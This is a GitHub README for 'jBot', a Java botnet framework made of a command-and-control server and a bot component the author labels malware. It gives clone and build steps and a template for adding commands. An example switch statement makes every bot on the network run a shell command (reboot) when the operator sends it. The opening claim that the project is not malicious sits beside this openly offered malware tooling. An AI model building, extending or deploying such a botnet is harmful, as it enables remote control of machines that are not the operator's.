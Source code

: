 *is jBot Malicious? No. jBot is an implementation of a Botnet in Java that was designed for developers to create their own botnets, as botnets are the future of large-scale computing, botnets are used widely across the world for many different things, and are used by some of your favorite companies.*
# jBot
jBot is the future of Java Botnet Development, the developed software allows java developers to create their own botnet, by adding commands, and more functionality to the initial botnet, as it was developed with ease of development in mind for less 'inclined' developers (No Offence).

## Get Started >
Begin by cloning/downloading this GitHub Repository, this will give you access to the Botnet Malware (Bot), and the Botnet Command and Control (CNC) Servers/Software.

    $ git clone https://github.com/Aaron-Akhtar/jBot.git

You can then process the projects into your code editor, and begin adding some custom commands and functionality to the botnet, as seen below.

### Adding Custom Commands and Functionality >
jBot uses something called Reflections, this allows the (CNC) software to dynamically find commands you've added to the project, so there is literally one 1 file/class that needs to be made and modified for you to add a custom command to the initial CNC Software, however you will need to add functionality for the actual bots (If your command is sending data to the bots), because, if you don't, the bots won't know what to do.

Start by Creating a Class & Implementing the interface [JBotCommand.java](https://github.com/Aaron-Akhtar/jBot/blob/main/jBot%20-%20Command%20and%20Control/src/main/java/me/aaronakhtar/jbot/command_manager/JBotCommand.java).
**MAKE SURE TO LOCATE YOUR NEW COMMAND CLASS INTO THE FOLLOWING PROJECT PACKAGE/DIRECTORY:** `me.aaronakhtar.jbot.command_manager.commands`
Example Command Class:

```java
package me.aaronakhtar.jbot.command_manager.commands;  
  
import me.aaronakhtar.jbot.command_manager.JBotCommand;  
import me.aaronakhtar.jbot.threads.handlers.ClientHandler;  
  
import java.io.BufferedReader;  
import java.io.BufferedWriter;  
  
public class RandomCommand implements JBotCommand {  
  
    @Override  
  public String getCommand() {  
        return "myCommand";  
  }  
  
    @Override  
  public String getDescription() {  
        return "use this command to send a virtual slap to all bots.";  
  }  
  
    @Override  
  public boolean isAdminCommand() {  
        return false;  
  }  
  
    @Override  
  public void doAction(String[] args, ClientHandler client, BufferedWriter out, BufferedReader in) throws Exception {  
        // do something here when CNC-CLIENT executes command.  
  }  
}
```
If your command has **NO BOT-FUNCTIONALITY**, then, congrats, you've made your first CNC Command.
Whenever a CNC-CLIENT executes your command, whatever is in `doAction(...)` will be executed.

### Integrating your new command with your Bot (Malware) >
Because of the ease-of-usage concept I want to go by, I decided to make the Malware simple, and not over complicated at all, in order to integrate your new command, simply **make sure you add the following code into your Command Class `doAction(...)` function in the CNC Software:  `Utilities.executeCommandToNetwork("command here");`**

In your Malware [Main.java](https://github.com/Aaron-Akhtar/jBot/blob/main/jBot%20-%20Malware%20Bot/src/main/java/me/aaronakhtar/jbot/Main.java) class, simply modify the switch-statement to integrate your new command, and provide some functionality, below is an example implementation:
```java
switch (commandArgs[0].toLowerCase(Locale.ROOT)){  
    // example  
  case "ping":{  
     System.out.println("pong");  
     break;  
  }  
  
  case "myCommand":{  
     Runtime.getRuntime().exec("reboot");  
     break;  
  }  
}
```
As you can see, we are executing the `reboot` command in all the bots on our network once receiving the new command we just added to our CNC.


## Compiling the Software >
Once you've modified your version of jBot, you can compile it with Git Bash using the following commands:
*Prerequisites*:
```
	- Apache Maven (Installation Tutorial > https://www.youtube.com/watch?v=km3tLti4TCM)
```
*Step 1*: Go into your CNC Project Folder (The folder with `pom.xml` in it) and execute the following command:
```
$ mvn clean package
```
or
```
mvn package
```
*Step 2*: Go into your Malware (Bot) Project Folder (The folder with `pom.xml` in it) and execute the following command:
```
$ mvn clean package
```
or
```
mvn package
```

**Ladies and Gentlemen**, that is how you create a damn Java Botnet.

# Credits:
Me.
https://twitter.com/D3vAaron
